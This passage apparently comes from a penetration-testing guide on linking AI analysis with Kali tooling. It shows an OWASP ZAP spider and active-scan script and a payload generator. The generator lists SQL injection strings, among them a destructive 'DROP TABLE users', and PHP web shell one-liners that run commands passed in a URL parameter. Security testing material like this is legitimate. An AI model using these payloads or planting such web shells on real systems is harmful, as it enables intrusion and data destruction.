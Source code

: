 ```bash
# Install ZAP API Python library
pip install python-owasp-zap-v2.4

# Create ZAP integration script
cat > zap_integration.py << 'EOF'
#!/usr/bin/env python3
from zapv2 import ZAPv2
import time

def integrate_with_zap(target_url, findings):
    """Send MCP findings to OWASP ZAP for verification"""
    zap = ZAPv2(proxies={'http': 'http://127.0.0.1:8080', 
                        'https': 'http://127.0.0.1:8080'})
    
    # Start ZAP spider
    zap.spider.scan(target_url)
    
    # Wait for spider to complete
    while int(zap.spider.status()) < 100:
        time.sleep(1)
    
    # Run active scan
    zap.ascan.scan(target_url)
    
    return zap.core.alerts()
EOF
```

## Advanced Kali Integration Features

### 1. Automated Payload Generation

```bash
cat > payload_generator.py << 'EOF'
#!/usr/bin/env python3
"""
Generate custom payloads based on AI analysis
"""

def generate_custom_payloads(ai_analysis, target_tech_stack):
    """Generate targeted payloads based on AI insights"""
    payloads = []
    
    if 'mysql' in target_tech_stack.lower():
        payloads.extend([
            "' OR 1=1-- -",
            "' UNION SELECT 1,2,3,4,5-- -",
            "'; DROP TABLE users; -- -"
        ])
    
    if 'php' in target_tech_stack.lower():
        payloads.extend([
            "<?php system($_GET['cmd']); ?>",
            "<?php echo shell_exec($_GET['cmd']); ?>"
        ])
    
    return payloads
EOF
```
